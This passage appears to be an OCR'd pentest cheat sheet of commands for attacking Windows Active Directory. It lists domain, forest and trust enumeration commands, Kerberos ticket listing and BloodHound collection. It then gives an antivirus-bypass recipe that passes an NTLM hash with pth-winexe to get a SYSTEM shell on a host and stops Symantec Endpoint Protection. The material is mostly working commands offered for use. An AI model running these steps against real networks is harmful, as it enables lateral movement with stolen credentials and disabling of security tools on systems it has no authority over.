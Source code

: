 ```
# domain trusts
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

# current forest info
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()

# get forest trust relationships
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', 'forest-of-interest.local')))).GetAllTrustRelationships()

# get DCs of a domain
nltest /dclist:offense.local
net group "domain controllers" /domain

# get DC for currently authenticated session
nltest /dsgetdc:offense.local

# get domain trusts from cmd shell
nltest /domain_trusts

# get user info
nltest /user:"spotless"

# get DC for currently authenticated session
set l

# get domain name and DC the user authenticated to
klist

# get all logon sessions. Includes NTLM authenticated sessions
klist sessions

# kerberos tickets for the session
klist

# cached krbtgt
klist tgt

# whoami on older Windows systems
set u
```
## BloodHound
```
powershell-import /path/to/BloodHound.ps1
powershell Get-BloodHoundData | Export-BloodHoundCSV
```
# Symantec AV Bypass
```
During our latest pentest, we faced shitty AV problem since we couldn't get any meterpreter session with psexec cuz of Symatec AV, So we would like to share our solution for this problem:
First We Need to connect with the local admin as system using pth (local hash extracted with bkhive and samdump2)

$./pth-winexe -U DOMAIN.COM/USERNAME%cc5e9acbad1b25c9aad3b435b51404ee:996e6760cddd8815a2c24a110cf040fb //10.0.42.154 cmd --system

Then let's Stop the AV  Service

cd "C:\Program Files\Symantec\Symantec Endpoint Protection"
smc.exe -stop

```